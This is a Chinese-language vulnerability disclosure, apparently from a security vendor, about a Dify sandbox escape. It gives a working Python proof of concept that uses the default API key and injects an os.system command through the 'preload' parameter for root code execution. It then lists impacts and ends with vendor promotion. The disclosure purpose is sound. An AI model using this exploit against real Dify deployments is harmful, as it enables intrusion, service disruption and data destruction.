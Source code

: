 **概念验证：**  
  
以下代码展示了如何利用该漏洞进行攻击：  
```
import requests
import json

url = "http://sandbox:8194/v1/sandbox/run"
headers = {
    "Content-Type": "application/json",
    "X-Api-Key": "dify-sandbox"
}

data = {
    "language": "python3",
    "code": "import time; time.sleep(3)",
    "preload": "import os; os.system(\"touch /tmp/111hrp.txt\")", 
    "enable_network": True
}

response = requests.post(url, headers=headers, data=json.dumps(data))
print(response.status_code)
print(response.json())
```  
  
在这段代码中，攻击者通过   
preload 参数注入恶意命令，执行任意 Python 代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞影响**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
**沙箱逃逸：**攻击者能够在沙箱环境中以根权限执行任意代码。  
  
**潜在破坏：**攻击者可以执行 destructive actions，例如删除整个沙箱服务，导致 Dify 的代码执行能力丧失。  
  
**服务中断：**一旦攻击成功，整个 Dify 服务可能会受到影响，导致无法正常运行。  
  
**数据丢失：**攻击者可以删除关键文件或数据，导致数据无法恢复。  
  
**安全隐患：**此漏洞可能被利用进行更广泛的攻击，影响整个系统的安全性。  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnTvIiaHUmnKpTszXxyVhEzHEZPbRHuWEicA99DGtdwzubs10GzSBCqzLqFaibMibc6L6MFoOKibLtSd3yw/640?wx_fmt=jpeg&from=appmsg "")  
  
山石网科早在十多年前便开始探索AI在网络安全领域的应用，通过AI技术构建了智能内网威胁感知系统(NDR)和智能下一代防火墙，实现对网络威胁的实时检测和精准定位。随着AI技术的不断发展，山石网科更是将AI技术全面融入在威胁检测、情报分析、智能运维、数据安全、病毒检测和加密流量检测等关键环节，山石安研院智能安全实验室有深厚的AI安全对抗研究积累，特别是在漏洞自动化挖掘与利用方面有多年的积累，为用户提供全方位的安全防护和智能决策支持。  
  
  
****  
  
  
